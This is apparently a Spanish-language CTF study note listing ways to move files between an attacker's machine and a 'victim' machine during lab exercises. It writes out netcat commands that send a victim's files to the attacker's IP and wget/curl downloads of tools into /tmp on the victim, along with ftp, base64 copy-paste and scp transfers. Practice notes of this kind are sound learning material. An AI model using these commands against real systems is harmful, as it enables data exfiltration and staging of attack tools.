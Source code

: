 ```yaml
---
title: Pasar Archivos
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajon Verde]
tags: [Linux, Transferencia Archivos]
---
```

## Maneras de pasar archivos entre máquinas

En máquina víctima recuerda pasarte a un directorio con permiso escritura, tanto en /tmp como en /shm no hay problema.

---

Para pasar archivo de máquina víctima a la mia:
```  
> nc -nlvp <puerto> > backup.tgz  
```
Lo anterior en mi máquina.  
Ahora desde la victima:  
```
> nc <miIp> <miPuerto> < <archivo>
```
-----------------
Ahora desde servidor **python**:  
Me creo servidor  
```
> python3 -m http.server <puerto> 
```
Y ya en maquina victima desde  una carpeta con capacidad de escritura(/tmp o /shm por ejemplo):  
```
> wget http://<miIp>:<puerto>/<archivo> (si es puerto 80 no hace falta ponerlo).
```

Ó;  
```
> curl http://miIp/<archivo> --output <ruta>
```
-------------------
Desde conexión **ftp** establecida en máquina víctima:  
```
> prompt off (para que no pregunte)
> mget * (descargar todo)
> exit 
```
Si quisiera subir al ftp víctima:  
```
put  <nameArchivo> (archivo que este en carpeta desde donde me conecté)
```
Y ya la tendríamos sin hacer nada mas.

-----------------
Si no hubiera ni nc, ni curl, ni wget:  
```
> base64 -w 0 <nombreArchivo> | xclip -sel clip
```
Ó;  
```
> base64 -w 0 <name>; echo (y copias)
```
Y en máquina destino:
```
> echo <cadenaCopiada> | base64 -d > <name>
```
Si es ejecutable recuerda: 
```
> chmod +x <ejecutable>
```
Contexto: lo hicimos en GOODGAMES para script de escaneo de puertos

----------------------
Si te sabes las credenciales por **ssh** tenemos la herramienta scp:  
```
> scp <user>@><ip>:<rutaDesdeElHomedelUser> <nameExportacion>
por ejemplo:
> scp tomy@10.10.11.152:user.txt user.txt
```
----------------------
Pasar archivos de un windows a un linux, mi parrot por ejemplo, visto JSON. Esta información la situaremos en el Post de PasarArchivos en carpeta Windows.
